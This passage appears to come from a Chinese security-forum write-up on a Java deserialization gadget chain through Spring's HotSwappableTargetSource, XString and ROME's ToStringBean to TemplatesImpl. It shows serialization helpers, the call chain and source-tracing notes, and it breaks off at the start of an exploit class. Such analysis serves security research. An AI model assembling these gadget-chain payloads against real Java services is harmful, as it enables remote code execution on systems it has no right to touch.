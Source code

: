 ```java
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

‍

‍

### HotSwappableTargetSource利用链

这条是spring原生的toString利用链，调用链如下

‍

利用链

```java
HashMap#readObject() -&gt; HashMap#putVal -&gt; HotSwappableTargetSource#equals -&gt; XString.equals -&gt; ToStringBean.toString -&gt; TemplatesImpl.getOutputProperties()
```

‍

#### 利用链分析

‍

在`/Library/Java/JavaVirtualMachines/jdk1.8.0_65.jdk/Contents/Home/src.zip!/com/sun/org/apache/xpath/internal/objects/XString.java`​ 类下找到 equals方法可以调用`toString`​方法

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e53460a3aca74ad974a440a72c6a415ae9324f9e.png)​

往上跟进找到

​`spring-aop-5.0.14.RELEASE.jar!/org/springframework/aop/target/HotSwappableTargetSource.java#equals()`​

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-76c9905726e6fe89b49734668848994bf1428c45.png)​

由于是equals()就想到了Hashmap这条，于是就跟完了

EXP

```java
package ROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import org.springframework.aop.target.HotSwappableTargetSource;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class ROME_HotSwappableTargetSource {

```